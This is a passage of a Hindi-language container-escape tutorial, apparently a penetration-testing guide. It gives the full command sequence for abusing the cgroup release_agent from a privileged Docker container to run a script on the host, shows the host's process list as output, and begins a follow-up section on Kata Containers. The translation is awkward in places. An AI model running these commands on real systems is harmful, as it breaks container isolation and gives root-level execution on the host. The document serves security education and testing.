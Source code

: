 हम कंटेनर में जो फ़ाइलें जोड़ते हैं या संशोधित करते हैं, वे होस्ट पर मौजूद होती हैं, और इन्हें दोनों दुनियों से संशोधित किया जा सकता है: कंटेनर में पथ और होस्ट पर उनका पथ।

इन कार्रवाइयों को नीचे देखा जा सकता है:
```
root@b11cf9eab4fd:/# echo 1 > /tmp/cgrp/x/notify_on_release
root@b11cf9eab4fd:/# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@b11cf9eab4fd:/# echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
नोट करें `/cmd` स्क्रिप्ट के पथ को, जिसे हम होस्ट पर बनाने जा रहे हैं:
```
root@b11cf9eab4fd:/# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/cmd
```
अब, हम `/cmd` स्क्रिप्ट बनाते हैं जिसके द्वारा यह `ps aux` कमांड को निष्पादित करेगा और इसका आउटपुट `/output` में संग्रहीत करेगा, होस्ट पर आउटपुट फ़ाइल के पूर्ण पथ को निर्दिष्ट करके। अंत में, हम भी `/cmd` स्क्रिप्ट को प्रिंट करते हैं ताकि हम इसकी सामग्री देख सकें:
```
root@b11cf9eab4fd:/# echo '#!/bin/sh' > /cmd
root@b11cf9eab4fd:/# echo "ps aux > $host_path/output" >> /cmd
root@b11cf9eab4fd:/# chmod a+x /cmd
root@b11cf9eab4fd:/# cat /cmd
#!/bin/sh
ps aux > /var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/output
```
अंत में, हम एक प्रक्रिया उत्पन्न करके हमला को क्रियान्वित कर सकते हैं जो "x" बाल बच्चा समूह के अंदर तत्काल खत्म हो जाती है। "/bin/sh" प्रक्रिया बनाकर और इसका पीआईडी "x" बाल बच्चा समूह निर्देशिका में `cgroup.procs` फ़ाइल में लिखकर, मेजबान पर स्क्रिप्ट `/bin/sh` के बाद निष्पादित होगी। मेजबान पर किए गए `ps aux` के आउटपुट को फिर `/output` फ़ाइल में कंटेनर के अंदर सहेजा जाता है:
```
root@b11cf9eab4fd:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@b11cf9eab4fd:/# head /output
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  1.0  17564 10288 ?        Ss   13:57   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    13:57   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   13:57   0:00 [kworker/0:0H-kblockd]
root         8  0.0  0.0      0     0 ?        I<   13:57   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    13:57   0:00 [ksoftirqd/0]
root        10  0.0  0.0      0     0 ?        I    13:57   0:00 [rcu_sched]
root        11  0.0  0.0      0     0 ?        S    13:57   0:00 [migration/0]
```
# `--privileged` फ्लैग v2

पिछले PoCs ठीक काम करते हैं जब कंटेनर को एक स्टोरेज ड्राइवर के साथ कॉन्फ़िगर किया जाता है जो माउंट पॉइंट का पूरा होस्ट पथ उजागर करता है, उदाहरण के लिए `overlayfs`, हालांकि हाल ही में मुझे कुछ कॉन्फ़िगरेशन मिली जिनमें होस्ट फ़ाइल सिस्टम माउंट पॉइंट स्पष्ट रूप से उजागर नहीं होता था।

## काटा कंटेनर्स
```
root@container:~$ head -1 /etc/mtab
kataShared on / type 9p (rw,dirsync,nodev,relatime,mmap,access=client,trans=virtio)
```
[Kata Containers](https://katacontainers.io) डिफ़ॉल्ट रूप से `9pfs` के माध्यम से कंटेनर की रूट फ़ाइल सिस्टम को माउंट करता है। इससे कटा कंटेनर वर्चुअल मशीन में कंटेनर फ़ाइल सिस्टम के स्थान के बारे में कोई जानकारी प्रकट नहीं होती है।
